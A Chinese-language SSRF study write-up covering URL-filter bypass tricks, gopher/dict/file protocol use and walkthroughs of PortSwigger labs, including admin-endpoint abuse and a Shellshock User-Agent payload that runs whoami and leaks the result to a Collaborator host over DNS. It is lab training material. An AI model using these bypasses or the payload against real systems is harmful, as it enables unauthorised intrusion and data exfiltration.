


#### 限制和ByPass

- 大多数Bypass方式在url跳转中给出，这里提两个之前没有介绍过的

- 数字IP Bypass：IP地址可以写为十六进制和十进制，一些特殊的ip可以简写


* **DNS Rebinding**
* url的path有些情况下不区分大小写，可以借此访问特定path
* 多重url编码
* curl http://www.baidu.com#666/path/


#### 利用方式

- 依赖于目标的后端语言、支持的协议和存在缺陷处的功能
  
  - 内网探测
  
  - 内网应用攻击
  
  - 文件下载

#### 常见协议

* Gopher协议，curl和libcurl等库均支持
  * 协议格式：`gopher://127.0.0.1:70/+ TCP/IP数据`。TCP/IP数据将会发送给相应的端口，这些数据可以是任何内容，我们可以构造任意应用层协议
  * 实际上，`gopher://127.0.0.1:70/`等同于`telnet 127.0.0.1 70`或者`exec 3<>/dev/tcp/127.0.0.1/70`

* FIle协议，`file://文件路径`
* http协议
* dict协议，词典网络协议，实际上是弱化版gopher协议
  * `dict://ip:port/数据`，该协议会自动补充CRLF，因此dict一般来说要一条一条地执行命令

#### portswigger靶场

##### Basic SSRF against the local server

靶场要求：访问到`http://localhost/admin`删除用户`carlos`，显然这里要通过ssrf进行访问

进入一个商品详情界面，点击`check stock`，拦截数据包，发现一个参数为url，替换为`http://localhost/admin`，成功加载该页面


点击删除后发现只允许admin操作或者本地操作


那很明显，以同样的方式访问localhost的删除接口即可。

查看点击删除后发出的报文


尝试通过ssrf访问该接口，删除成功


##### Lab: Basic SSRF against another back-end system

靶场要求：访问192.168.0.x中的某个ip的8080端口，通过它删除用户`carlos`

和上一个靶场类似的操作，抓取到查询库存的报文


导入intruder，遍历ip段，发现有几个ip的响应和一般的错误不同


加上第一个靶场的`/admin`试试，发现有一个ip成功返回管理员界面


接下来和第一题一样，ssrf访问`http://ip/admin/delete?username=carlos`即可


##### Lab: Blind SSRF with out-of-band detection

这一题只是一个盲注的演示，查看商品详情的http请求中的referer可以进行SSRF，这里要求必须使用burp的Collaborator 模块，如果连接不上Collaborator，需要在burp->设置->Network->Connections设置一个可以科学上网的上游服务器


##### SSRF with blacklist-based input filter

这一题也是要访问`http://localhost/admin`删除用户，但是对于ssrf攻击做了一些过滤。

还是同样的操作，抓取到查询库存的报文，发现检测了stockApi中的admin和localhost关键字，localhost可以用127.0.0.1替代，发现127.0.0.1也被检测。





但是ip地址可以尝试使用十六进制、十进制和简写等绕过，这里127.0.0.1就是支持简写的ip，我们进行简写绕过


至于admin，针对这个字符串绕过的方法，应该只有编码、大小写了，我们先尝试url编码，发现不行（双重URL编码可以）


大小写可以绕过检测，但是我们还是得测试一下这里是否区分大小写，发现支持，成功解题


##### Lab: SSRF with filter bypass via open redirection vulnerability

靶场要求：访问`http://192.168.0.12:8080/admin`删除用户`carlos`

同样地抓到所需报文，一眼发现关键，这里的stockApi是否只有path，而且以/开头


合理猜测后端是否是拼接http://host和这里的path，如果是的话，我们可以采取@进行绕过，发现的确可以


##### Lab: Blind SSRF with Shellshock exploitation

靶场要求：通过ssrf盲注打到192.168.0.X:8080，并通过shellstock漏洞执行命令获取系统的用户名

首先这里查看商品详情界面的报文没有了stockApi这个参数，我们先添加该参数试试是否可以进行ssrf


没有收到响应，当然这里可以对反连的域名进行fuzz，看一下是否存在过滤或者检测，不过由于题目已经提示这里是通过referer进行ssrf的，这里就不再去寻找ssrf的参数了。

不过这里要介绍一下一个burp插件，安装该插件后，burp在扫描目标主机的时候会自动地对一些地方插入Collaborator模块的反连地址，并结合其进行检测是否存在ssrf，用这个插件可以方便我们的ssrf检测。



针对本靶场，这里检测到了Referer头存在SSRF，所以我们要借助Referer头打SSRF


另外靶场提示了我们要利用shellstock获取系统的用户名，这里不多介绍shellstock漏洞，见链接[Bash 破壳漏洞Shellshock （CVE-2014-6271）复现分析 - 春告鳥 - 博客园](https://www.cnblogs.com/Cl0ud/p/14248937.html)。

仔细观察Collaborator模块可以发现，它收到的请求中的User-Agent和我们的请求是一样的


经过shellstock漏洞的学习后，很容易联想到，User-Agent是否是通过环境变量传递的，这里是否可以打shellstock，在User-Agent注入Payload

```shell
() { :; }; /usr/bin/nslookup $(whoami).Collaborator域名
```

然后对Referer的ip进行一个爆破


发现Collaborator模块有DNS记录，解题成功


##### SSRF with whitelist-based input filter

靶场要求：访问到`http://localhost/admin`删除用户`carlos`，但是存在白名单过滤

先简单尝试，要求必须为指定域名


这里先后尝试了`http://stock.weliketoshop.net@localhost` `http://localhost#stock.weliketoshop.net` `http://localhost?stock.weliketoshop.net` `//localhost?http://stock.weliketoshop.net` `//localhost#http://stock.weliketoshop.net`  `http://stock.weliketoshop.net.127.0.0.1.xip.io`都不行

但是尝试了一下，发现`http://localhost@stock.weliketoshop.net`是没有被过滤的，当然这里的域名还是`stock.weliketoshop.net`也没法利用，所以后端大概率是识别@的，有没有办法将这里的localhost解析为域名呢，我们可以尝试一下在localhost后面加上#能否注释掉@。还是不行：


显然后端也检测了#，我们要后端可以识别出@，但检测不到#，试试url编码和双重url编码，双重编码成功


